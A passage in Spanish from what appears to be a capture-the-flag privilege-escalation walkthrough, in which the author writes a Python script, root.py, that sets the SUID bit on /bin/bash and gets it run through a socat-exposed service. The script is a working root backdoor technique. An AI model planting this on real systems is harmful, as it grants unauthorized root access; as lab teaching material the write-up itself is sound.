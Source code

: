 Veremos que esta funcionando, pilla los scripts que se crean en dichas rutas, por lo que vamos a crear un script `.py` de esta forma:

> root.py

```python
import os

def set_suid():
    try:
        os.chmod("/bin/bash", 0o4755)
        print("[+] SUID bit seteado en /bin/bash")
    except PermissionError:
        print("[-] Permiso denegado. Ejecuta este script como root.")
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    set_suid()
```

Ahora volvemos a ejecutar el `socat` y veremos que esta nuestro `script` llamado `root.py` de forma correcta, vamos a ejecutarlo pinchando en dicho script.

Pero no nos va a ejecutar nada, simplemente nos mostrara las funciones y todo lo que hace el script, pero si le damos a donde pone `/tmp/root.py` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-01 102817.png" alt=""><figcaption></figcaption></figure>
